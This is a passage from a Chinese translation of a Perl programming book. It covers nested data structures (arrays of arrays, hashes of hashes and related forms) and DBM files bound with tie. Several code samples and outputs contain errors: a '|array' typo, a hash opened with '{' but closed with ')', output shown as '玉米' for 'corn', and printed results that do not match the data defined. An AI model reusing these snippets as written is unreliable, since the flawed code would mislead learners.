剩下的就是名为 **show** 的子程序，它负责显示对话框。要显示对话框，你需要使用对话框对象的 **Show** 方法：

```
sub show
{
    $result = $dialog->Show;
    .
    .
    .
}
```

**Show** 方法返回被点击按钮的标题，如果用户点击了 OK 按钮，他们在对话框中输入的文本将显示在主窗口的文本部件中：

```
sub show
{
    $result = $dialog->Show;

    if ($result eq "OK") {
        $text1->delete('1.0','end');
        $text1->insert('end', $entry->get);
    }
}
```

就是这样。当用户运行这个程序时，他们将看到主窗口，如图 15.23 所示。如果用户点击"Show Dialog Box"按钮，对话框将出现，如图 15.24 所示，用户可以向该对话框的输入框中输入文本，同样如图 15.24 所示。最后，如果用户点击 OK 按钮，对话框消失，用户在对话框中输入的文本将出现在主窗口的文本部件中，如图 15.25 所示。



**图 15.23** 对话框示例的主窗口。



**图 15.24** 显示对话框。



**图 15.25** 显示输入到对话框中的数据。

# 第 16 章

## 数据结构与数据库

| 如果你需要以下内容的快速解决方案： | 请参阅页码： |
| --- | --- |
| 存储引用及其他元素以构建复杂记录 | 693 |
| 使用数组的数组（多维数组） | 694 |
| 创建数组的数组 | 696 |
| 访问数组的数组 | 699 |
| 使用哈希的哈希 | 701 |
| 创建哈希的哈希 | 702 |
| 访问哈希的哈希 | 704 |
| 使用哈希的数组 | 706 |
| 创建哈希的数组 | 707 |
| 访问哈希的数组 | 709 |
| 使用数组的哈希 | 712 |
| 创建数组的哈希 | 712 |
| 访问数组的哈希 | 714 |
| 使用链表和环形缓冲区 | 714 |
| 将数据结构存储到磁盘 | 717 |
| 复制数据结构 | 717 |
| 打印数据结构 | 718 |
| 创建数据结构类型 | 720 |
| 写入数据库文件 | 723 |
| 读取数据库文件 | 724 |
| 对数据库进行排序 | 725 |
| 将文本文件当作数据库处理 | 726 |
| 执行 SQL | 727 |

## 深入探讨

在 Perl 5 版本之前，编程中最大的缺失可能就是对复杂数据结构的支持，甚至不支持多维数组。事实上，这可能是程序员最怀念的特性——在数组中使用多个索引的能力。在本章中，我们将看到这一情况已经发生了怎样的变化。

## Perl 中的数据结构

在过去，程序员曾经用一种充其量只能算是笨拙的方式来模拟多维数组——将数组索引作为字符串，然后将它们拼接成一个字符串作为哈希的键。在下面的示例中，我创建了一个二维"数组"：

```
for $outerloop (0..4) {
    for $innerloop (0..4) {
        $array{"$outerloop,$innerloop"} = 1;
    }
}
```

创建了这样的数据结构之后，你可以通过传递拼接后的数组索引来访问"数组"中的元素，像这样：

```
print $array{'0,0'};

1
```

然而现在，Perl 已经大大增强了对数据结构的支持，包括多维数组，你可以像下面这样编写代码：

```
for $outerloop (0..4) {
    for $innerloop (0..4) {
        $array[$outerloop][$innerloop] = 1;
    }
}

print $array[0][0];

1
```

## 深入探讨

不过，这比看起来要稍微复杂一些。Perl 的数组和哈希本质上仍然是一维的，因此我们在前面代码中真正看到的是一个存储其他数组引用的数组。

具体来说，二维数组实际上是一个一维数组，其中每个元素都是指向另一个一维数组的引用。你可以在方括号之间省略 `->` 解引用操作符，这使得可以像前面的示例那样编写代码（即 **$array[$outerloop][$innerloop]** 等同于 **$array[$outerloop]->[$innerloop]**），但你应该记住，你实际处理的是一个数组引用的数组。

例如，如果你对前面的数组执行以下代码：

```
print @array
```

你不会看到二维数组中的元素。相反，你会看到指向其他一维数组的引用：

```
ARRAY(0x8a56e4)ARRAY(0x8a578c)
ARRAY(0x8a58d0)ARRAY(0x8a5924)
ARRAY(0x8a5978)
```

因为二维数组实际上是指向其他一维数组的引用的数组，所以你可以使用匿名数组构造器 `[]` 来创建该数组：

```
$array[0] = ["apples", "oranges"];
$array[1] = ["asparagus", "corn", "peas"];
$array[2] = ["ham", "chicken"];

print $array[1][1];

corn
```

这是另一种实现相同功能的方式，其中我使用一个数组引用列表来初始化 **@array**：

```
@array = (
    ["apple", "orange"],
    ["asparagus", "corn", "peas"],
    ["ham", "chicken"],
);

print $array[1][1];

corn
```


请注意，我通过传递一组数组引用来创建此数组。如果你使用方括号而不是圆括号，实际上是在 **$array** 中存储对匿名数组数组的引用，你需要使用 `->` 运算符来解引用它：

```
$array = [
    ["apple", "orange"],
    ["asparagus", "corn", "peas"],
    ["ham", "chicken"],
];
```

```
print $array->[1][1];
```

*玉米*

除了在数组中存储其他数组的引用，你有时还会在 Perl 中看到以下类型的代码，它创建了一个二维数组：

```
@{$array[0]} = ("apples", "oranges");
@{$array[1]} = ("asparagus", "corn", "peas");
@{$array[2]} = ("ham", "chicken");
```

```
print $array[1][1];
```

*玉米*

在 **@{$array[0]}** 项中发生的事情有点微妙。它的原理如下——Perl 知道 **@{}** 结构会解引用数组引用，但是，由于 **$array[0]** 不存在，Perl 会创建它（这是 Perl 自动活化过程的另一个例子），并用一个指向包含我们赋值列表中元素的数组的引用填充它。**$array[1]** 和 **$array[2]** 也会发生同样的过程，因此二维数组就形成了。请注意，使用这样的代码时必须小心。例如，如果 **$array[0]** 在前面的代码赋值之前 *就* 存在，那么无论 **$array[0]** 指向什么，都将被覆盖。

构造二维数组后，你可以像这样通过索引访问其元素：

```
@array = (
    ["apples", "oranges"],
    ["asparagus", "corn", "peas"],
    ["ham", "chicken"],
);
```

```
for $outer (0..$#array) {
    for $inner (0..$#{$array[$outer]}) {
        print $array[$outer][$inner], " ";
    }

    print "\n";
}
```

```
apples oranges
asparagus corn peas
ham chicken
```

你仍然可以使用 Perl 处理一维数组的技术，这可以使处理多维数组变得更容易。例如，以下是我如何使用循环索引和 **join** 方法，通过连续打印一维数组来打印二维数组（注意我使用 @{} 形式来解引用数组引用）：

```
@array = (
    ["apples", "oranges"],
    ["asparagus", "corn", "peas"],
    ["ham", "chicken"],
);
```

```
for $loopindex (0..$#array) {
    print join (", ", @{$array[$loopindex]}), "\n";
}
```

```
apples, oranges
asparagus, corn, peas
ham, chicken
```

当然，你不一定需要使用循环索引。你可以直接遍历数组引用本身，像这样：

```
@array = (
    ["apples", "oranges"],
    ["asparagus", "corn", "peas"],
    ["ham", "chicken"],
);
```

```
for $arrayreference (@array) {
    print join (", ", @{$arrayreference}), "\n";
}
```

```
apples, oranges
asparagus, corn, peas
ham, chicken
```

需要记住的重点是，你实际上是在处理数组的数组，这是我们将在本章中看到的所有数据结构的关键。永远记住，这些数据结构是基于引用的，而不是 Perl 的基本类型。

## 一个好主意：使用 strict vars

有时，创建数据结构和处理所需的引用是一个复杂的过程。一个有帮助的编译指示是 **use strict vars**。例如，假设你错误地使用了 [] 而不是 () 编写了以下代码，将一个匿名数组引用赋值给 **$array**，而不是一个数组的数组：

```
use strict vars;

$array = [
    ["apple", "orange"],
    ["asparagus", "corn", "peas"],
    ["ham", "chicken"],
];

print $array[0][0];
```

Perl 编译器会在最后一行生成错误，因为你隐式使用了 @array，这是一个未声明的变量。该错误提醒你要么将外层的 [ 和 ] 替换为 ( 和 )，要么将 **$array** 作为引用来使用，像这样：

```
$array->[0][0]
```

除了数组的数组和哈希的哈希，你还可以像这样将两者混合，创建哈希的数组等等：

```
$array[1][2]                    #数组的数组
$hash{bigkey}{littlekey}        #哈希的哈希
$array[3]{key}                  #哈希的数组
$hash{key}[4]                   #数组的哈希
```

我们将在本章的“快速解决方案”部分详细探讨所有这些内容。我们还将探讨 Perl 对创建和使用数据库的支持。这种支持很有用，虽然有些简单，并且由于它在 CGI 编程中很流行，我们将在本章中介绍它。

## Perl 中的数据库

Perl 支持一种非常易于使用的数据库文件类型——DBM（数据库管理）文件。这种数据库处理方式将数据库视为一个哈希，你可以将其存储到磁盘并从中检索。

在较旧的 Perl 版本中，你过去使用像 **dbmopen** 和 **dbmclose** 这样的函数来处理 DBM 文件；然而，这些函数已经被 **tie** 函数取代了（我们将在第 19 章介绍面向对象编程时更详细地了解如何使用 **tie**）：

```
tie VARIABLE, CLASSNAME, LIST
```

你可以使用 **tie** 函数将哈希与磁盘上的 DBM 文件连接，或 *绑定*。

在下面的示例中，我将一个哈希绑定到一个新的数据库文件，并使用键 '**drink**' 存储值 '**root beer**'。（我在此处包含 **Fcntl** 模块，以便能够使用文件处理符号常量 **O_RDWR**（以读写方式打开文件）、**O_CREAT**（如果文件不存在则创建文件）和 **O_EXCL**（独占打开文件））：

```
use Fcntl;
use NDBM_File;

tie %hash, "NDBM_File", 'data', O_RDWR|O_CREAT|O_EXCL, 0644;

$hash{drink} = 'root beer';
untie %hash;
```

前面的代码创建了 data.pag 文件，其中包含我创建的哈希。我们将在本章后面看到如何读回该数据。你还可以向哈希中添加更多条目，并根据需要使用它们。

如你所见，内置的数据库支持是基于哈希的，这对于当今的数据库需求来说有些过于简单（尽管你现在可以使用 CPAN 的 DBI（数据库接口）和 DBD（数据库驱动程序）模块连接到商业 SQL 数据库程序）。

在此示例中，我使用了 NDBM 数据库类来创建数据库，但有许多不同的数据库类可用，包括 ODBM、SDBM 等。有关各种类的比较，请参见表 16.1。所有这些模块都可以在 Unix 或 Windows 上安装，但请注意，你的 Perl 移植版本实际附带的内容会有所不同。例如，Windows Perl 移植版本仅附带 SDBM（这是所有 Perl 移植版本附带的数据库类）。

### 表 16.1 Perl 中的数据库类型。

| 支持特性 | ODBM | NDBM | SDBM | GDBM | BSD-DB |
|----------|------|------|------|------|--------|
| Perl 中支持链接 | 是 | 是 | 是 | 是 | 是 |
| 源码随 Perl 附带 | 否 | 否 | 是 | 否 | 否 |
| 代码大小 | 不定 | 不定 | 小 | 大 | 大 |
| 数据库大小 | 不定 | 不定 | 小 | 大 | 一般 |
| 速度 | 不定 | 不定 | 慢 | 一般 | 快 |
| 可通过FTP获取 | 否 | 否 | 是 | 是 | 是 |
| 块大小限制 | 1K | 4K | 1K | 无 | 无 |
| 字节序独立 | 否 | 否 | 否 | 否 | 是 |
| 用户定义排序 | 否 | 否 | 否 | 否 | 是 |
| 通配符键查找 | 否 | 否 | 否 | 否 | 是 |

你可以使用 **tie** 函数绑定到特定的数据库。过去，你必须使用 **dbmopen** 函数打开数据库，使用 **dbclose** 关闭它们，事实上，你仍然可以使用这些函数，尽管它们现在只是为了向后兼容而包含在内。如果你使用 **dbmopen**，它实际上现在会调用 **tie**，并链接到 **AnyDBM_File** 模块指定的数据库类型。该模块会尝试按顺序连接到 **NDBM_File**、**DB_File**、**GDBM_File**、**SDBM_File**，然后是 **ODBM_File**。你可以通过像这样重新定义 **@ISA** 数组（我们将在第 17 章的 Perl 包中了解此数组的作用）来更改顺序和 **AnyDBM_File**（因此也是 **dbmopen**）使用的模块：

```
@AnyDBM_File::ISA = qw(DB_FILE NDBM_File);
```

这就是你需要的所有概述了。现在是深入“快速解决方案”的时候了。


### 即时解决方案

## 为复杂记录存储引用与其他元素

“唉，”新手程序员说，“一维数组已经不能满足我了，既然老板让我负责公司的记录。我需要一个哈希数组。”“没问题，”你说，“既然Perl引入了引用，你就可以创建各种复杂的结构——只需将哈希的引用存储在数组中。”这位新手程序员茅塞顿开。

在Perl中，你可以在数据结构中存储多种类型的项，包括对其他数据结构的引用，这使你能够创建复杂的、相互关联的结构。当你希望数据结构中各处存储的数据副本在原始数据更改时能自动更新时，创建这样的结构会非常有用。

> **提示：** 如果你使用CPAN的**MLDBM**和**Storable**模块，可以将包含引用的复杂数据结构存储到磁盘上。这些模块实际上并不将引用本身存储到磁盘；它们存储的是引用所指向的数据。我们将在本章中介绍如何使用**Storable**模块。

作为本章其余内容的概述，以下代码示例展示了可以存储在数据结构中的部分数据类型，包括引用（甚至包括指向子程序的引用）：

```
$string = "Here's a string.";

@array = (1, 2, 3);

%hash = ('fruit' => 'apples', 'vegetable' => 'corn');

sub printem
{
    print shift;
}

$complex = {
    string      =>  $string,
    number      =>  3.1415926,
    array          =>  [@array],
    hash           =>  {%hash},
    arrayreference =>  \@array,
    hashreference  =>  \%hash,
    sub            =>  \&printem,
    anonymoussub   =>  sub {print shift;},
    handle         =>  \*STDOUT,
};
```

```
print $complex->{string}, "\n";
print $complex->{number}, "\n";
print $complex->{array}[0], "\n";
print $complex->{hash}{fruit}, "\n";
print ${$complex->{arrayreference}}[0], "\n";
print ${$complex->{hashreference}}{"fruit"}, "\n";

$complex->{sub}->("Subroutine call.\n");
$complex->{anonymoussub}->("Anonymous subroutine call.\n");

print {$complex->{handle}} "Text printed to a handle.", "\n";
```

*Here's a string.*

*3.1415926*

*1*

*apples*

*1*

*apples*

*Subroutine call.*

*Anonymous subroutine call.*

*Text printed to a handle.*

> **提示：** 你可以使用匿名数组和哈希构造器来存储数组和哈希的副本，或者存储对现有数组和哈希的引用，以便直接操作它们的数据。

## 使用数组的数组（多维数组）

大老板出现了，说：“我们必须存储员工培训的测试分数数据。我们需要创建一个员工ID与测试分数的矩阵。”“‘我们’，”你说，“你的意思是‘我’，对吧？”老板默默递给你很多页纸。“好吧，”你说，“我现在可以在Perl中创建二维数组，所以这没问题。”

数组的数组（或数组的数组的数组，依此类推）是具有多个维度的数组。当需要使用多个索引来索引数据时，这种数组非常宝贵（例如，按ID和考试编号索引的员工数组）。

在Perl中，数组本质上是一维的，但现在你可以创建一个包含其他数组引用的数组，从而创建一个二维数组。创建数组数组的一种方法是使用匿名数组构造器创建数组引用，并将它们存储在另一个数组中，如下所示：

```
@array = (
    ["apple", "orange"],
    ["asparagus", "corn", "peas"],
    ["ham", "chicken"],
);
```

此技术用匿名数组的引用填充**@array**。你可以通过显式获取其中一个匿名数组的引用并对其解引用来打印该数组中的元素，如下所示：

```
$array1ref = $array[1];
print ${$array1ref}[1];
```

*corn*

注意，你也可以使用 -> 解引用运算符来完成同样的操作：

```
print ${array[1]}->[1];
```

事实上，这里的花括号不是必需的，因此以下代码也能实现相同功能：

```
print $array[1]->[1];
```

*corn*

为了创建真正的多维数组语法，Perl允许在花括号之间省略->运算符，因此你也可以像这样访问同一个元素：

```
print $array[1][1];
```

*corn*

这样，我们就有了真正的二维数组语法，其中第一个索引指的是数组中数据项的行，第二个索引指的是列。

这是创建二维数组的另一种方法，我逐行用匿名数组的数组引用来初始化**@array**：

```
$array[0] = ["apples", "oranges"];
$array[1] = ["asparagus", "corn", "peas"];
$array[2] = ["ham", "chicken"];

print $array[1][1];
```

*corn*

没有什么能阻止你为数组添加更多维度，如下一个例子，我使用匿名数组的引用创建了一个三维数组（前提是你能理解数组的数组的数组的引用的引用的概念）：

```
@array =
(
    [
        ["apple", "orange"],
        ["ham", "chicken"],
    ],
    
    [
        ["tomatoes", "sprouts", "potatoes"],
        ["asparagus", "corn", "peas"],
    ],
);

print $array[1][1][1];
```

*corn*

关于这里发生的事情，请回顾本章前面的“深入探讨”部分以及接下来的两个主题。

### 创建数组的数组

“我现在明白数组的数组的概念了，”新手程序员说，“我真的明白了。它们是数组的引用的数组，但是你能用多少种不同的方法创建它们呢？”“最好先坐下来，”你说。

有很多方法可以创建数组的数组。要逐个部分地创建数组的数组，你可以使用匿名数组构造器[]，用一维数组的引用填充数组：

```
@array = (
   ["apple", "orange"],
   ["asparagus", "corn", "peas"],
   ["ham", "chicken"],
);

print $array[1][1];
```

*corn*

这是创建二维数组的另一种方法，我用匿名数组的数组引用来初始化**@array**：

```
$array[0] = ["apples", "oranges"];
$array[1] = ["asparagus", "corn", "peas"];
$array[2] = ["ham", "chicken"];

print $array[1][1];
```

*corn*

当然，你不必使用匿名数组。你也可以使用命名数组：

```
@array1 = qw(apples oranges);
@array2 = qw(asparagus corn peas);
@array3 = qw(ham chicken);

$array[0] = \@array1;
$array[1] = \@array2;
|array[2] = \@array3;

print $array[1][1];
```

*corn*

你也可以让Perl自动创建引用（参见本章开头的讨论）：

```
@{$array[0]} = ("apples", "oranges");
@{$array[1]} = ("asparagus", "corn", "peas");
@{$array[2]} = ("ham", "chicken");

print $array[1][1];
```

*corn*

当然，你也可以逐个元素地创建并填充一个数组的数组：

```
for $outerloop (0..4) {
    for $innerloop (0..4) {
         $array[$outerloop][$innerloop] = 1;
    }
}

print $array[0][0];
```

*1*

你也可以将数组引用推入数组的数组：

```
for $loopindex (0..4) {
    push @array, [1, 1, 1, 1];
}

print $array[0][0];
```

*1*

这是另一个例子，我使用子程序返回的列表和匿名数组构造器来创建数组的数组：

```
for $loopindex (0..4) {
    $array[$loopindex] = [&zerolist];
}

sub zerolist
{
    return (0, 0, 0, 0);
}

print $array[1][1];
```

*0*

你总可以像这样为数组的数组添加另一行：

```
@array = (
    ["apple", "orange"],
    ["asparagus", "corn", "peas"],
    ["ham", "chicken"],
);

$array[3] = ["chicken noodle", "chili"];

print $array[3][0];
```

*chicken noodle*

或者，如果你愿意，可以像这样将元素推入现有的行中：

```
@array = (
    ["apple", "orange"],
    ["asparagus", "corn", "peas"],
    ["ham", "chicken"],
);

push @{$array[0]}, "banana";

print $array[0][2];
```

*banana*

### 访问数组的数组

“现在我已经创建了一个数组的数组，”新手程序员说，“那么我如何从中取出数据呢？”“有很多种方法，”你说。

假设你已经像这样创建了一个数组的数组：

```
@array = (
    ["apple", "orange"],
    ["asparagus", "corn", "peas"],
    ["ham", "chicken"],
);
```

这会用匿名数组的引用填充**@array**。你可以通过显式获取其中一个数组的引用并对其解引用来打印该匿名数组中的元素，如下所示：

```
$array1ref = $array[1];
print ${$array1ref}[1];
```

*corn*

## 第16章 数据结构与数据库

你也可以像这样使用 `->` 解引用运算符：

```perl
print ${$array[1]}->[1];
```

事实上，这里的语法对Perl来说很清晰，所以不需要花括号，这意味着以下代码也能达到相同效果：

```perl
print $array[1]->[1];
```

```
corn
```

还有一种更简洁的写法。为了创建真正的多维数组语法，Perl允许在花括号之间省略 `->` 运算符。这意味着你也可以像这样访问同一个元素：

```perl
print $array[1][1];
```

```
corn
```

这是一种真正的二维数组语法，与其他编程语言使用的语法非常相似。你可以像这样逐个元素地访问数组的数组：

```perl
for $outerloop (0..4) {
    for $innerloop (0..4) {
        $array[$outerloop][$innerloop] = 1;
    }
}

print $array[0][0];
```

```
1
```

但你也可以利用Perl的一些一维数组处理能力，使数组操作变得更容易一些。例如，在这个例子中，我使用 **join** 函数将数组中的行转换为字符串：

```perl
@array = (
    ["apple", "orange"],
    ["asparagus", "corn", "peas"],
    ["ham", "chicken"],
);

for $arrayref (@array) {
    print join (", ", @{$arrayref}), "\n";
}
```

```
apples, oranges
asparagus, corn, peas
ham, chicken
```

## 使用哈希的哈希

“数组的数组确实很好，”新手程序员说，“但我的数据是通过文本键引用的，而不是数字。我应该重建我的数据系统吗？”“你可以这么做，”你说，“但为什么不使用哈希的哈希呢？”新手程序员看起来高兴多了。

当你有一个面向文本的多级信息系统时，比如专家系统，你就可以使用哈希的哈希。

> **提示：** *在专家系统中，问题的答案实际上是一个哈希的键，其值是下一个要问的问题。当问了足够多的问题以确定正确答案后，最终的哈希值就是用户试图解决的问题的答案。哈希的哈希是实现专家系统时非常优秀的数据结构。*

在这种情况下，你使用文本来键入数据结构的后续层级。要一次性创建一个哈希的哈希，你可以使用类似于以下声明的方式。注意，我将一个键/值列表赋值给一个哈希，而这些值本身就是哈希：

```perl
%hash = {
    fruits => {
        favorite => "apples",
        'second favorite' => "oranges",
    },

    vegetables => {
        favorite => "corn",
        'second favorite' => "peas",
        'least favorite' => "turnip",
    },

    meats => {
        favorite    => "chicken",
        'second favorite' => "beef",
    },
);
```

那么，如何使用哈希的哈希呢？正如你所期望的那样。这里有一个例子：

```perl
print $hash{fruits}{favorite};
```

```
apples
```

这就是哈希的哈希背后的思想。接下来的几个主题将详细阐述这个概念。一起来看看吧。

## 创建哈希的哈希

“我理解哈希的哈希背后的思想，”新手程序员说，“它很像数组的数组。但你可以用多少种不同的方式来创建哈希的哈希呢？”“最好坐下来说，”你说。

正如你在前一个主题中看到的，你可以使用匿名哈希构造器像这样创建哈希的哈希：

```perl
%hash = (
    fruits => {
        favorite => "apples",
        'second favorite' => "oranges",
    },
    
    vegetables => {
        favorite => "corn",
        'second favorite' => "peas",
        'least favorite' => "turnip",
    },
    
    meats => {
        favorite    => "chicken",
        'second favorite' => "beef",
    },
);

print $hash{fruits}{favorite};
```

```
apples
```

要逐块创建哈希的哈希，你可以在不同的键下添加连续的哈希，像这样：

```perl
$hash{fruits} = {
    favorite => "apples",
    'second favorite' => "oranges",
};

$hash{vegetables} = {
    favorite => "corn",
    'second favorite' => "peas",
    'least favorite' => "turnip",
};

$hash{meats} =  {
    favorite      => "chicken",
    'second favorite' => "beef",
};

print $hash{fruits}{favorite};
```

```
apples
```

当然，你不必使用匿名哈希——你可以使用命名哈希并将它们放入哈希的哈希中，像这样：

```perl
%hash1 =
(
    favorite => "apples",
    'second favorite' => "oranges",
);

%hash2 =
(
    favorite => "corn",
    'second favorite' => "peas",
    'least favorite' => "turnip",
);

%hash3 =
(
    favorite      => "chicken",
    'second favorite' => "beef",
);

$hash{fruits} = \%hash1;
$hash{vegetables} = \%hash2;
$hash{meats} =  \%hash3;

print $hash{fruits}{favorite};
```

```
apples
```

下面是我如何使用匿名哈希组合器——{ 和 }——以及子例程返回的键/值对列表来创建哈希：

```perl
for $key ("hash1", "hash2", "hash3" ) {
    $hash{$key} = {&returnlist};
}

sub returnlist
{
    return (key1 => value1, key2 => value2);
}

print $hash{hash1}{key2};
```

```
value2
```

创建哈希的哈希的方式还有很多。我相信你一定能想出更多额外的方法。

## 访问哈希的哈希

> “既然我已经创建了一个哈希的哈希，”新手程序员说，“我该如何访问我放入其中的数据呢？”“没问题，”你说，“拉把椅子过来，我们一起来看看。”

要访问哈希的哈希中的单个值，你可以像这样显式地引用它们：

```perl
%hash = (
    fruits => {
        favorite => "apples",
        'second favorite' => "oranges",
    },
    vegetables => {
        favorite => "corn",
        'second favorite' => "peas",
        'least favorite' => "turnip",
    },
);

print $hash{fruits}{'second favorite'};
```

```
oranges
```

你也可以使用处理哈希的标准技术。例如，以下是一种遍历哈希的哈希中所有元素的方法：

```perl
%hash = (
    fruits => {
        favorite => "apples",
        'second favorite' => "oranges",
    },
    vegs => {
        favorite => "corn",
        'second favorite' => "peas",
    },
);

for $food (keys %hash) {
    print "$food\t {";
    for $key (keys %{$hash{$food}}) {
        print "'$key' => '$hash{$food}{$key}'";
    }
    print "}\n";
}
```

```
vegs   {'favorite' => 'corn', 'second favorite' => 'peas'}
fruits {'favorite' => 'apples', 'second favorite' => 'oranges'}
```

要对主哈希进行排序，你可以使用这样的表达式：

```perl
for $food (sort keys %hash)
```

这将产生以下结果：

```
fruits   {'favorite' => 'apples', 'second favorite' => 'oranges'}
vegs     {'favorite' => 'corn', 'second favorite' => 'peas'}
```

因为你可以访问哈希的哈希内部的哈希，所以操作这种结构中的数据的方法与操作哈希的方法一样多。

## 使用哈希的数组

大老板出现了，说：“你创建的那个用来跟踪竞争对手的哈希很棒。”“谢谢，”你说。“太棒了，”大老板说，“我想要再要200个这样的哈希，每个竞争对手一个，而且我希望你遍历所有这些哈希，找出哪个哈希中与‘Can_be_taken_over’键对应的值最大。”“嗯，”你说，“我想我可以创建一个哈希的数组，然后通过数字索引来遍历这些哈希。”

当你想按数字索引文本键控的记录时，比如想遍历许多哈希时（本章后面在“使用链表和环形缓冲区”部分有一个使用哈希数组的实质性例子），你就可以使用哈希的数组。

以下是如何使用匿名哈希构造器一次性声明一个哈希的数组的方法：

```perl
@array = (
    {
        favorite => "apples",
        'second favorite' => "oranges",
    },
    {
        favorite => "corn",
        'second favorite' => "peas",
        'least favorite' => "turnip",
    },
    {
        favorite    => "chicken",
        'second favorite' => "beef",
    },
);

print $array[0]{favorite};
```

```
apples
```

正如你所见，这里的核心思想很简单——一个哈希数组就是字面意思，通过这种结构，你可以用数字索引哈希。当你想创建一个元素数组，而这些元素自身又包含你想按键（而非按数字）索引的子元素时，应该想到这种数据结构。

## 创建哈希数组

“我完全理解哈希数组的概念，”新手程序员说，“但我该如何创建它们呢？” “很简单，”你说，“让我来展示给你看。”

你可以按照预期的方式创建哈希数组——只需让数组的元素指向哈希的引用。在下面的示例中，我使用了匿名哈希：

```perl
@array =
(
	{
		favorite => "apples",
		'second favorite' => "oranges",
	},

	{
		favorite => "corn",
		'second favorite' => "peas",
		'least favorite' => "turnip",
	},

	{
		favorite	=> "chicken",
		'second favorite' => "beef",
	}
);

print $array[0]{favorite};

apples
```

你可以通过将哈希赋值给数组元素，逐步构建哈希数组：

```perl
$array[0] =
{
	favorite => "apples",
	'second favorite' => "oranges",
};
```

```perl
$array[1] =
{
    favorite => "corn",
    'second favorite' => "peas",
    'least favorite' => "turnip",
};

$array[2] =
{
    favorite    => "chicken",
    'second favorite' => "beef",
};

print $array[0]{favorite};
```

*apples*

当然，你不一定需要使用匿名哈希。你也可以使用命名哈希，就像在这个例子中：

```perl
%hash1 =
(
    favorite => "apples",
    'second favorite' => "oranges",
);

%hash2 =
(
    favorite => "corn",
    'second favorite' => "peas",
    'least favorite' => "turnip",
);

%hash3 =
(
    favorite    => "chicken",
    'second favorite' => "beef",
);

@array = (\%hash1, \%hash2, \%hash3);

print $array[0]{favorite};
```

*apples*

像处理任何数组一样，你也可以使用 **push**：

```perl
push @array, {
    favorite => "apples",
    'second favorite' => "oranges"
};

push @array, {
    favorite => "corn",
    'second favorite' => "peas",
    'least favorite' => "turnip"
};

push @array, {
    favorite => "chicken",
    'second favorite' => "beef"
};

print $array[0]{favorite};

apples
```

在下面的例子中，我读取键/值数据并将其拆分成一个哈希数组：

```perl
$data[0] = "favorite:apples,second favorite:oranges";
$data[1] = "favorite:apples,second favorite:oranges,
    least favorite=turnips";
$data[2] = "favorite:chicken,second favorite:beef";

for $loopindex (0..$#data) {
    for $element (split ',', $data[$loopindex]) {
        ($key, $value) = split ':', $element;
        $array[$loopindex]{$key} = $value;
    }
}

print $array[0]{'second favorite'};

oranges
```

## 访问哈希数组

新手程序员又回来了。“我已经创建了一个哈希数组，”新手程序员说，“但我该如何从中获取数据呢？” “没问题，”你说，“去倒杯咖啡，我们慢慢来。”

从哈希数组中恢复数据很简单。你可以使用数组的索引和哈希的键来访问值，就像这样：

```perl
$array[0] = {
    favorite => "apples",
    'second favorite' => "oranges"
};

$array[1] = {
    favorite => "corn",
    'second favorite' => "peas",
    'least favorite' => "turnip"
};

$array[2] = {
    favorite => "chicken",
    'second favorite' => "beef"
};

print $array[0]{favorite};
```

apples

下面是一个遍历所有元素来打印整个哈希数组的例子：

```perl
$array[0] = {
    favorite => "apples",
    'second favorite' => "oranges"
};

$array[1] = {
    favorite => "corn",
    'second favorite' => "peas"
};

$array[2] = {
    favorite => "chicken",
    'second favorite' => "beef"
};

for $loopindex (0..$#array) {

    print "array[$loopindex]: {";
    for $key (keys %{$array[$loopindex]}) {
print "'$key' => '$array[$loopindex]{$key}' ";

}

print "}\n";

}
```

array[0]: {'favorite' => 'apples' 'second favorite' => 'oranges'}
array[1]: {'favorite' => 'corn' 'second favorite' => 'peas'}
array[2]: {'favorite' => 'chicken' 'second favorite' => 'beef'}

下面是我使用引用（而不是循环索引）来完成同样任务的方法：

```perl
$array[0] = {
    favorite => "apples",
    'second favorite' => "oranges"
};

$array[1] = {
    favorite => "corn",
    'second favorite' => "peas"
};

$array[2] = {
    favorite => "chicken",
    'second favorite' => "beef"
};
```

```perl
for $hashreference (@array) {
    print "{";
    for $key (sort keys %$hashreference) {
        print "'$key' => '$hashreference->{$key}'";
    }
    
    print "}\n";

}
```

{'favorite' => 'apples''second favorite' => 'oranges'}
{'favorite' => 'corn''second favorite' => 'peas'}
{'favorite' => 'chicken''second favorite' => 'beef'}

## 使用数组的哈希

> “我已经创建了数组的数组、哈希的哈希、以及哈希的数组，”新手程序员说，“还剩下什么？” “我猜你能猜到，”你说。

在数组和哈希的四种可能组合中，数组的哈希可能是最不常用的一种。然而，它们确实有其用途。一个使用数组的哈希的场景是，当你想要一个哈希，它对同一个值拥有多个键。在标准哈希中，你不能将多个键与一个哈希值关联，但如果你在哈希中存储数组引用，你就可以遍历每个数组中的文本字符串键，看看是否有与你正在寻找的键匹配的。当你有希望通过数字索引的数据，并想将其存储为记录时，你也可以创建一个数组的哈希。

下面的例子展示了如何一次性创建一个数组的哈希：

```perl
%hash = (
    fruits => ["apples", "oranges"],
    vegetables => ["corn", "peas", "turnips"],
    meats => ["chicken", "ham"],
);

print $hash{fruits}[0];
```

apples

关于数组的哈希的更多信息，请参阅以下几个“即时解决方案”。

## 创建数组的哈希

> “数组的哈希背后的思想很清楚，”新手程序员说，“但我该如何创建它们呢？” “很简单，”你说，“只需将数组引用存储为哈希值即可。”

这是我们上一个主题中看到的例子，它使用匿名数组构造器来创建一个数组的哈希：

```perl
%hash = (
    fruits => ["apples", "oranges"],
    vegetables => ["corn", "peas", "turnips"],
    meats => ["chicken", "ham"],
);

print $hash{fruits}[0];
```

*apples*

要逐步创建一个数组的哈希，你可以使用匿名数组构造器，按键将数组存储到哈希中：

```perl
$hash{fruits} = ["apples", "oranges"];
$hash{vegetables} = ["corn", "peas", "turnips"];
$hash{meats} = ["chicken", "ham"];

print $hash{fruits}[0];
```

*apples*

当然，你可以使用命名数组代替匿名数组，就像这个例子中：

```perl
@array1 = ("apples", "oranges");
@array2 = ("corn", "peas", "turnips");
@array3 = ("chicken", "ham");

$hash{fruits} = \@array1;
$hash{vegetables} = \@array2;
$hash{meats} = \@array3;

print $hash{fruits}[0];
```

*apples*

如果你愿意，也可以改为推送元素列表，像这样：

```perl
push @{$hash{fruits}}, "apples", "oranges";
push @{$hash{vegetables}}, "corn", "peas", "turnips";
push @{$hash{meats}}, "chicken", "ham";

print $hash{fruits}[0];
```

*apples*

## 访问数组的哈希

> 新手程序员说：“现在我已经创建了一个数组的哈希，但我该如何从中获取数据呢？” “很简单，”你说，“看看这些例子。”

